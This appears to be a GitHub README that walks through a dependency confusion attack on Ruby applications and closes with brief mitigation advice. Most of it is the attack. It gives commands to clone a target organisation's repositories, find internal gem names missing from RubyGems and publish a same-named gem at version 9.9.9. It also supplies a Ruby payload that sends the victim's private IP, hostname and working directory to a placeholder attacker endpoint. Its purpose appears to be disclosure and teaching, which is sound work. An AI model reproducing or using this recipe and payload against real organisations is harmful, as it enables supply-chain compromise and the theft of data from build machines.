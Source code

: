 <h1 align="center">
    <a href="https://www.youtube.com/@techghoshal"><img src="https://github.com/techghoshal/ruby_dependency_confusion_attacks/assets/85815644/0b65137c-72e8-4003-b4b1-265cd25a37bd"></a>
<h1 align="center">Ruby Dependency Confusion Attacks POC
<p align="center"><img alt="Twitter Follow" src="https://img.shields.io/twitter/follow/techghoshal?style=social"></p>
</h1>

# Overview

This proof-of-concept (PoC) demonstrates how Ruby applications can be vulnerable to dependency confusion attacks, potentially leading to remote code execution (RCE). The attack exploits the way package managers resolve dependencies, allowing malicious actors to inject unauthorized code into systems that rely on both public and private package repositories.

# Understanding Dependency Confusion

Dependency confusion arises when a package manager, such as Bundler for Ruby, inadvertently fetches a malicious package from a public repository instead of the intended internal one. This typically occurs when:

- An internal package is referenced in a project's `Gemfile`.
- The internal package is not available in the public repository (e.g., RubyGems).
- An attacker publishes a malicious package with the same name and a higher version number to the public repository.

When the application resolves dependencies, it may prioritize the higher version number from the public repository, leading to the execution of the attacker's code.

# Proof of Concept (PoC)

The following steps outline how an attacker can exploit this vulnerability:

1. **Identify Target Repositories**:
- Use tools like [ghorg](https://github.com/gabrie30/ghorg) to clone all repositories from a target organization:
```bash
ghorg clone <target_organization> -t <personal_access_token>
```
- Example:
```bash
ghorg clone microsoft -t ghp_exampleToken123
```
2. **Extract Gem Dependencies**:
- Search for `Gemfile` files and extract gem names:
```bash
find . -type f -name Gemfile | \
xargs -n1 -I{} awk '/^\s*gem / {gsub(/[",'\''()]/, "", $2); print $2}' {} | \
sort -u
```
3. **Check for Public Availability**:
- Verify if the extracted gems are available on RubyGems:
```bash
xargs -n1 -I{} httpx -silent -status-code -mc 404 "https://rubygems.org/gems/{}"
```
- A `404` status code indicates the gem is not publicly available, making it a candidate for dependency confusion.
4. **Publish Malicious Gem**:
- Create a new gem with the same name and a higher version number:
```bash
bundle gem <package_name>
cd <package_name>
```
- Modify the `<package_name>.gem` file:
```bash
    Gem::Specification.new do |s|
    s.name        = "<package_name>"
    s.version     = "9.9.9"
    s.summary     = "Vulnerability Disclosure: Dependency confiuse vulnerability"
    s.description = "This Ruby package vulnerable to dependency confiuse vulnerability"
    s.authors     = ["<YOUR NAME>"]
    s.email       = "<YOUR EMAIL>"
    s.files       = ["lib/<package_name>.rb"]
    s.homepage    =
        "https://rubygems.org/gems/<package_name>"
    s.license       = "MIT"
end
```
- Modify the `.gemspec` file to include malicious code. For example, in `lib/<package_name>.rb`:
```bash
require 'json'
require 'net/http'
require 'socket'

priv_ip = UDPSocket.open { |s| s.connect("64.233.187.99", 1); s.addr.last }
hostname = Socket.gethostname
dir = Dir.pwd

uri = URI('https://<attacker_endpoint>')
req = Net::HTTP::Post.new(uri, 'Content-Type' => 'application/json')
req.body = { private_ip: priv_ip, hostname: hostname, current_directory: dir }.to_json

Net::HTTP.start(uri.hostname, uri.port, use_ssl: uri.scheme == 'https') do |http|
  http.request(req)
end
```
- Save this file and back `cd..` from the directory
- Build and push the gem to RubyGems:
```bash
gem build <package_name>.gemspec
gem push <package_name>-9.9.9.gem
```
# Mitigation Strategies

To protect against dependency confusion attacks:

- **Specify Sources Explicitly**:

    - In your `Gemfile`, define the source for each gem:
    ```bash
    source 'https://rubygems.org' do
    gem 'public_gem'
    end

    source 'https://internal.repo' do
    gem 'internal_gem'
    end`
    ```
- **Use Private Gem Servers**:
    - Host internal gems on a private server and ensure they are not accessible publicly.

- **Claim Internal Package Names**:

    - Even if not publishing them, register internal package names on public repositories to prevent malicious actors from claiming them.

- **Update Bundler**:

    - Ensure you're using Bundler version 2.2.18 or later, which includes fixes for dependency confusion vulnerabilities.

# Conclusion

Dependency confusion poses a significant risk to applications that rely on both public and private package repositories. By understanding the attack vector and implementing proper safeguards, developers can mitigate the risk and protect their systems from potential exploitation.

### Connect me

If you have any queries, you can always contact me on [Linkedin](https://www.linkedin.com/in/anindyaghoshal/)
